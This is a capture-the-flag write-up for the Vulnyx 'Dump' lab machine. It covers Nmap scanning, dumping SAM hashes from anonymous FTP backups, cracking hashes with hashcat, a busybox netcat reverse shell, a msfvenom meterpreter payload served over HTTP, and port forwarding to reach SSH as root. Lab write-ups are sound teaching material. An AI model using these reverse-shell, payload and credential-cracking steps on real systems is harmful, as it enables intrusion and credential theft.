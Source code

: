 ```yaml
---
title: Dump - Vulnyx Writeup
date: 2024-04-17 10:03
categories: [ctf, linux, easy]
tags: [vulnyx, linux, ctf, easy]    # TAG names should be lowercase
---
```


# Machine Info

Dump was an easy rated Linux machine on Vulnyx, Involves dumping user hashes from SAM file and cracking it those hashes using hashcat for initial access. For root access, user dumper have writes to read the `/etc/shadow` file, which leaks the root user password hash which leads to get access to root user on the box.

![image](https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/23725db5-b59a-49c9-b380-f9e505ca745b)

# User 
## Scanning through Nmap

First of all we will go with nmap to scan the whole network and check for services running on the network. To scan the whole network and find all the open ports i use **-p-** used to scan the whole **65535** ports with **--min-rate 10000** to scan network faster from **nmap** and i found a list of open ports on the network and get only the open ports using different terminal tools like **cut**, **tr** etc. 

```shell
$ nmap -p- --min-rate 10000 192.168.190.134 -oN ini.txt && cat ini.txt | cut  -d ' ' -f1 | tr -d '/tcp' | tr '\n' ','
21,80, 4200
```

Now Let's run the depth scan on these specific ports using 

```bash
$ nmap -p21,80,4200 -sC -sV -A -T4 192.168.190.134 -oN scan.txt
```

- **-sC** is to run all the default scripts
- **-sV** for service and version detection
- **-A** to check all default things
- **-T4** for aggressive scan
- **-oN** to write the result into a specified file

```bash
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      pyftpdlib 1.5.4
| ftp-syst:
|   STAT:
| FTP server status:
|  Connected to: 192.168.190.134:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx   2 root     root         4096 Feb 09 10:46 .backup [NSE: writeable]
80/tcp   open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
4200/tcp open  ssl/http ShellInABox
| ssl-cert: Subject: commonName=dump
| Not valid before: 2024-02-09T11:53:57
|_Not valid after:  2044-02-04T11:53:57
|_ssl-date: TLS randomness does not represent time
|_http-title: Shell In A Box
```

Through Nmap, we found three open ports, **21 FTP** with anonymous login allowed, port **80 HTTP** web and port **4200 ssl/HTTP** also web. Becasue we are allowed to login as anonymous user on FTP, lets dive into it and check if we found any useful file or folder their.

### 21 FTP

After login to FTP using anonymous credientials, we found a **.backup** directory. after looking into the **.backup** directory, we found two files **sam.bak** and **system.bak**. 
So what are **sam** and **system** files, **sam** file is a file in windows that holds the **usernames** and **NTLM** password hashes of local users on system. This is file is encrypted and it's key is stored in a registry file called **system**. You can learn more about it [here](https://juggernaut-sec.com/dumping-credentials-sam-file-hashes/)

<img  alt="Pasted image 20240415093027" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/44353a42-8d79-4d12-af4e-e1002c4abfea">

So in our case we have both system and sam file, lets try to dump the password hashes from it, we can use tool called secretsdump.py from impacket toolkit for that purpose
**SecretsDump.py** is a Python tool by Impacket that can extract secrets from targets. **SecretsDump.py** performs various techniques to dump hashes from the remote machine without executing any agent there. For **SAM** and **LSA** Secrets (including cached creds) it tries to read as much as it can from the **registry** and then saves the hives in the target system `(%SYSTEMROOT%\Temp dir)` and reads the rest of the data from there. For **NTDS.dit** it uses the **Volume Shadow Copy Service** to read NTDS.dit directly from the disk or it can use the parser module to read NTDS.dit files from a copy.
secretsdump.py dump **usernames** and their **password** hashes for us, if we were facing a windows machine, then we can perform **pass-the-hash** attack to gain access on the machine, without decrypting it. But, because we are on Linux machine, we have to decrypt it.

```bash
$ secretsdump.py -sam sam.bak -system system.bak LOCAL
```

- **-sam** to parse sam file
- **-system** to parse system file
- **LOCAL** because we parse these files locally

<img alt="Pasted image 20240415094024" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/7e50225e-4f01-474a-9f68-80f987dd230b">

```NTLM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:45ab968b011c0b6cfd1e9e1b30ff40cc:916da1881680fcb38f2ce951f666d6be:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:d0d506281c0dbfe0a16f57e412411d37:::
dumper:1004:ebd1b59f4f5a6843aad3b435b51404ee:7324322d85d3714068d67eccee442365:::
admin:1005:7cc48b08335cd858aad3b435b51404ee:556a8f7773e850d4cf4d789d39ddaca0:::
```

After saving these hashes let's fire up hashcat to perform dictionary attack to decrypt these hashes.
Hashcat is **a password cracking tool used for licit and illicit purposes**. Hashat is a particularly fast, efficient, and versatile hacking tool that assists brute-force attacks by conducting them with hash values of passwords that the tool is guessing or applying

```bash
$ hashcat -m 1000 hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```

- **-m** to specify module number of NTLM hash which is 1000 in our case

<img  alt="Pasted image 20240415095409" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/292758d4-c28c-4db8-9438-a3c219c2d6f0">

We were successfully able to crack the password of user **admin** and **dumper**

```passwords
dumper:7324322d85d3714068d67eccee442365:1dumper
admin:556a8f7773e850d4cf4d789d39ddaca0:blabla
```

### 80 HTTP

On port 80 their is a simple apache default page is runnig. feroxbuster also didn't found any useful path their.

<img  alt="Pasted image 20240415100300" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/4959a089-4f9d-47ce-8e36-f7d7b1111be4">

### 4200 HTTPs

On TCP port 4200, there is a some kind of login page is working called dump login.

<img alt="Pasted image 20240415095754" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/9ea8608c-b05b-41c0-a7b6-5e2cbb996bf2">

I tried to login to it using admin credentials but admin credentials didn't worked their, then I tried to login using dumper credentials and it worked and we got a shell on the box as dumper user. Their is also our user flag is present.

<img  alt="Pasted image 20240415100118" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/20f35516-de07-4c82-abaa-1f1241f6d4b7">

Let's get shell on our box using **busybox** and make it stable.

```bash
$ busybox nc 192.168.190.129 9001 -e sh
$ nc -lvnp 9001
$ ptyhon3 -c "import pty; pty.spawn('/bin/bash')"
$ export TERM=xterm
```


# Privilege Escalation

Linpeas reveals that we have a read access to `/etc/shadow` file, a file that contains user's passwords hashes on Linux system. 

<img  alt="Pasted image 20240416102724" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/f6cf35b5-0896-4e50-958a-fc6f29057a75">

Lets, copy root hash and try to break it using hashcat on our local machine.

```bash
$ hashcat -m 1800 root-hash rockyou.txt

# Cracked Hash
$6$jzcdBmCLz0zF2.b/$6sok07AjDc3TN3oeI/NqrdZ6NSQly3ADW6lvs3z5q.5GDqsCypL8WtL7ARhzDcdYgukakXWeNbiIP7GyigCse/:shadow123
```

Linpease also discover that port **22 ssh** was running locally on the machine. I decided to forward it to my attacker machine. 

<img  alt="Pasted image 20240416103403" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/6b2026cc-6e0a-493d-a7ee-1ca975946436">

First, lets get a shell on **metasploit** and then perform port forwarding, there are also  many other ways to perform port forwarding but the metasploit one is more simple and easy.
To get a shell on metasploit, first create a elf file using **msfvenom** and then deliver it on victim machine using python3 server.

```bash
$ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.190.133 LPORT=4444 -f elf -o shel.elf

# Python server
$ python3 -m http.server 80
```

<img alt="Pasted image 20240415103604" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/a67df831-57e4-413c-a994-9ece495be28b">

After that run a listener on metasploit using

```bash
$ use exploit/multi/handler
$ set payload linux/x64/meterpreter_reverse_tcp
$ set LHOST=<attacker IP>
$ set LPORT=<that you specified in msfvenom payload>
$ run
```

Now whenever someone will run our **shel.elf** file, we will receive a shell back on our metasploit listener.

<img  alt="Pasted image 20240415104043" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/8bde988f-b67e-42e1-b0d7-c8fabebaed39">

Now Lets forward our port 22 to our attacker machine using:

```bash
$ portfwd -l 101 -p 22 -r 127.0.0.1
```

- **-l** for local port
- **-p** for remote port
- **-r** remote host

<img  alt="Pasted image 20240416104103" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/4f3d40ad-0603-4c03-9883-4627d124bfe7">

Now let's get a shell as root using ssh and grab our root.txt.

```bash
$ ssh root@127.0.0.1 -p 101
```

<img  alt="Pasted image 20240416104235" src="https://github.com/iammR0OT/Vulnyx/assets/74102381/f26a30e0-d44f-4d6d-b80e-9ce33d001f57">


# Happy Hacking ❤
